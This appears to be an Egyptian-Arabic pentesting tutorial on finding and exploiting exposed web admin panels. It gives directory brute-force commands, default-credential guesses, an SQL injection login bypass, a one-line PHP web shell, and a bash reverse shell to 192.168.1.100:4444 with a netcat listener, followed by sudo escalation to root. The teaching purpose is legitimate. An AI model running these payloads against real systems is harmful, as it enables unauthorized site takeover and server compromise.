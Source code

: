 # **1. إيه هو Exposed Admin Panels؟**

## **الشرح العميق:**
ال"Exposed Admin Panels" يعني إن لوحات التحكم بتاعة الأدمن (Admin Panels) في موقع ويب أو نظام متاحة ومكشوفة لأي حد على الإنترنت بدون حماية كافية. اللوحات دي هي اللي بتدي الأدمن القدرة يتحكم في الموقع (زي إضافة مستخدمين، تغيير إعدادات، أو حذف بيانات)، ولما تكون مكشوفة، يعني أي حد يقدر يوصلها من غير ما يثبت إنه الأدمن. ده بيحصل كتير لما:
- المسار بتاعها واضح (زي `/admin` أو `/dashboard`).
- مافيش تسجيل دخول قوي أو حماية زي CAPTCHA أو 2FA.
- اللوحة متاحة للكل بسبب إعدادات ضعيفة.

## طرق اكتشافها :
### 1. **فحص المسارات الشائعة:**
   - جرب في المتصفح:
     - `http://target.com/admin`.
     - `http://target.com/dashboard`.
     - `http://target.com/login`.
   - لو ظهرت صفحة تسجيل دخول أو لوحة مباشرة، يبقى مكشوف.

### 2. **استخدام curl:**
   - `curl -I http://target.com/admin` -> لو رجع `200 OK`، يعني موجود ومفتوح.

### 3. **أدوات فحص:**
   - بـ Dirb أو Gobuster:
     - `dirb http://target.com /usr/share/wordlists/dirb/common.txt`.
     - لو لقيت `/admin` أو `/controlpanel`، جربها.

### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب مكتب المدير مفتوح في الشارع، أي حد يقدر يخش يتحكم في كل حاجة! Exposed Admin Panels يعني مكان التحكم بتاع الموقع متاح للكل زي السوق."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
اللوحات دي خطيرة لأنها بتكون الباب الرئيسي للتحكم في الموقع أو النظام. لو المهاجم وصلها:
- **تحكم كامل:** يقدر يضيف مستخدمين، يمسح بيانات، أو يغير إعدادات.
- **سرقة بيانات:** يشوف كل حاجة زي بيانات العملاء أو كلمات السر.
- **زرع أكواد:** يرفع Shell أو Backdoor عشان يرجع تاني.
- **تصعيد صلاحيات:** لو اللوحة متصلة بالسيرفر، يقدر ياخد Root أو System.

في الـ Pentesting، اللوحات المكشوفة دي بتكون كنز لأنها بتديك وصول مباشر لكل حاجة من غير تعب كبير.

## طرق استغلالها لو لقتها :
### 1. **تجربة تسجيل دخول:**
   - لو لقيت `http://target.com/admin/login.php`:
     - جرب كلمات سر افتراضية:
       - Username: `admin` - Password: `admin`.
       - Username: `admin` - Password: `password`.

### 2. **استغلال بدون تسجيل:**
   - لو `http://target.com/admin` فتحت مباشرة:
     - ابحث عن خيار Upload أو Settings.

### 3. **SQL Injection للوصول:**
   - لو فيه Login:
     - `http://target.com/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.
     - لو دخلت، يبقى مكشوف وضعيف.

## **خلاصة بالعامية المصرية:**
"اللوحة دي خطيرة لأنها زي مفتاح العربية، لو حد مسكه هياخد كل حاجة! المهاجم يلاقيها مفتوحة، يخش يلعب في الموقع زي ما يكون بيته."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم اللوحة المكشوفة عشان تتحكم في الموقع أو تاخد وصول أعلى للسيرفر.
- **مثال واقعي:** لو لقيت `/admin` مفتوح، ترفع Shell وتاخد Shell كامل.

## **خلاصة بالعامية المصرية:**
"لما تلاقي اللوحة مكشوفة، زي ما تكون لقيت كنز في لعبة، بتستخدمه عشان تتحكم في كل حاجة وتبقى الكبير بتاع الماتش!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: البحث عن Admin Panels**
- جرب مسارات شائعة:
  - `curl -I http://192.168.1.10/admin` -> لو `200 OK`، يبقى موجود.
  - `curl -I http://192.168.1.10/dashboard`.
- بـ Gobuster:
  - `gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/common.txt`.

## **الخطوة 3: اختبار الوصول**
- لو لقيت `/admin`:
  - افتحه: `http://192.168.1.10/admin`.
  - لو طلب Login:
    - جرب: `admin:admin` أو `admin:password`.
  - لو مفتوح مباشرة، ابحث عن Settings أو Upload.

## **الخطوة 4: استغلال اللوحة**
- لو دخلت:
  - ابحث عن مكان Upload:
    - ارفع Shell: `<?php system($_GET['cmd']); ?>` كـ `shell.php`.
    - افتح: `http://192.168.1.10/admin/shell.php?cmd=id` -> لو رجع `www-data`.
- لو فيه SQL Injection:
  - `http://192.168.1.10/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.

## **الخطوة 5: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 6: توثيق**
- سجل المسار اللي لقيته (زي `/admin`) وطريقة الدخول.
- قدم تقرير يوضح إزاي اللوحة المكشوفة فتحت الباب للتحكم.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مكتب المدير مفتوح، خشيت، لعبته فيه، وطلعت الكبير بتاع الحتة! اللوحة المكشوفة دي طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Exposed Admin Panels هي ثغرة كبيرة لأنها بتديك وصول مباشر للتحكم في الموقع. في الـ Pentesting، دور عليها بـ curl أو Gobuster، استغلها عشان تدخل، ترفع Shell، أو تاخد صلاحيات أعلى، ووري العميل إن نظامه زي بيت بدون باب! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!